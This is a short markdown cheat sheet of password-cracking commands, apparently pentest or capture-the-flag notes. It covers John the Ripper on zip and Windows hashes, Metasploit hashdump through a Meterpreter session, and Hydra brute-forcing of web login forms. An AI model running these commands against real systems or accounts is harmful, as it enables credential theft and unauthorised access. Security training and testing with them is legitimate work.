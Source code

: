 # Cracking Things

## Unzip password protected zip archives

```
zip2john archive.zip > archive.hash
john archive.hash --fork=4 -w=/path/to/wordlist
```

## Crack salted SHA512 hash

hashfile format: hash$salt
```sh
john --format='dynamic=sha512($p.$s)' --wordlist=/usr/share/wordlists/rockyou.txt ./hashfile
```

## Crack Windows Hash

### Metasploit
```sh
# First, open and background a Meterpreter session
# Store hash dump into database, then:
use post/windows/gather/hashdump
set session X
use auxiliary/analyze/crack_windows
run
```

### John The Ripper
```sh
# Fist, get Windows hash
# Format: User:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

## Credentials brute-forcing

### Hydra

- Bruteforce login/password combination
```
hydra -L /usr/share/wordlists/rockyou.txt -P /usr/share/wordlists/rockyou.txt <hostname> http-post-form "/path/to/login:<username field name>=^USER^&<password field name>=^PASS^:<error string>"
```
- Find password for a known user
```
hydra -P /usr/share/wordlists/rockyou.txt -l admin www.domain.tld http-post-form "/path/to/login.php:<username field name>=^USER^&<password field name>=^PASS^:<error string>"
```

## Links
___
### Guides
- https://github.com/frizb/Hydra-Cheatsheet
- https://github.com/DidierStevens/DidierStevensSuite/blob/master/xor-kpa.py

### Writeups
- 
